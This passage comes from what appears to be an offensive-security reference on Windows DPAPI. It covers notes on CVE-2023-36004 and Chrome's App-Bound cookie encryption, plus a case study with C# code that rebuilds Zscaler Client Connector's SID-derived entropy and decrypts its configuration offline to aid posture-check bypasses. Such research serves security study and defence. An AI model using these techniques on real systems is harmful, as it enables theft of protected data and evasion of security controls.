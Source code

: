 * **CVE-2023-36004 – Windows DPAPI Secure Channel Spoofing** (November 2023). An attacker with network access could trick a domain member into retrieving a malicious DPAPI backup key, allowing decryption of user masterkeys. Patched in November 2023 cumulative update – administrators should ensure DCs and workstations are fully patched. 
* **Chrome 127 “App-Bound” cookie encryption** (July 2024) replaced the legacy DPAPI-only protection with an additional key stored under the user’s **Credential Manager**. Offline decryption of cookies now requires both the DPAPI masterkey and the **GCM-wrapped app-bound key**. SharpChrome v2.3 and DonPAPI 2.x are able to recover the extra key when running with user context. 

### Case Study: Zscaler Client Connector – Custom Entropy Derived From SID

Zscaler Client Connector stores several configuration files under `C:\ProgramData\Zscaler` (e.g. `config.dat`, `users.dat`, `*.ztc`, `*.mtt`, `*.mtc`, `*.mtp`).  Each file is encrypted with **DPAPI (Machine scope)** but the vendor supplies **custom entropy** that is *calculated at runtime* instead of being stored on disk.

The entropy is rebuilt from two elements:

1. A hard-coded secret embedded inside `ZSACredentialProvider.dll`.
2. The **SID** of the Windows account the configuration belongs to.

The algorithm implemented by the DLL is equivalent to:

```csharp
byte[] secret = Encoding.UTF8.GetBytes(HARDCODED_SECRET);
byte[] sid    = Encoding.UTF8.GetBytes(CurrentUserSID);

// XOR the two buffers byte-by-byte
byte[] tmp = new byte[secret.Length];
for (int i = 0; i < secret.Length; i++)
    tmp[i] = (byte)(sid[i] ^ secret[i]);

// Split in half and XOR both halves together to create the final entropy buffer
byte[] entropy = new byte[tmp.Length / 2];
for (int i = 0; i < entropy.Length; i++)
    entropy[i] = (byte)(tmp[i] ^ tmp[i + entropy.Length]);
```

Because the secret is embedded in a DLL that can be read from disk, **any local attacker with SYSTEM rights can regenerate the entropy for any SID** and decrypt the blobs offline:

```csharp
byte[] blob = File.ReadAllBytes(@"C:\ProgramData\Zscaler\<SID>++config.dat");
byte[] clear = ProtectedData.Unprotect(blob, RebuildEntropy(secret, sid), DataProtectionScope.LocalMachine);
Console.WriteLine(Encoding.UTF8.GetString(clear));
```

Decryption yields the complete JSON configuration, including every **device posture check** and its expected value – information that is very valuable when attempting client-side bypasses.

> TIP: the other encrypted artefacts (`*.mtt`, `*.mtp`, `*.mtc`, `*.ztc`) are protected with DPAPI **without** entropy (`16` zero bytes). They can therefore be decrypted directly with `ProtectedData.Unprotect` once SYSTEM privileges are obtained.
